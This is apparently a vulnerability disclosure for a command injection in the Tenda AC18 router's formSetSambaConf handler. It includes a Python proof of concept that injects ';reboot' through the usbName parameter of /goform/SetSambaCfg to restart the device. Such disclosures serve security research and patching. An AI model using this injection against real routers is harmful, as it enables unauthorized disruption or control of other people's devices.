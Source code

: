# Tenda AC18 V15.03.05.19 Command Injection

## Overview

- Manufacturer's address：https://www.tenda.com.cn/
- Firmware download address ： https://www.tenda.com.cn/download/detail-2683.html

## Affected version

Below is the latest firmware

![](img/1.png#center)

## Vulnerability details

Vulnerability occurs in formSetSambaConf function.        The contents of the usbName parameters are executed as commands.

![](img/2.png#center)
## POC

Run poc

```python
import requests

url = 'http://10.211.55.20/goform/SetSambaCfg'

headers = {"Cookie": "password=You cookie"}
data = {
    'action': 'del',
    'usbName': ';reboot'
}

r = requests.post(url=url, headers=headers, data=data)
hunzi = r.text
print(hunzi)
```

The router will restart
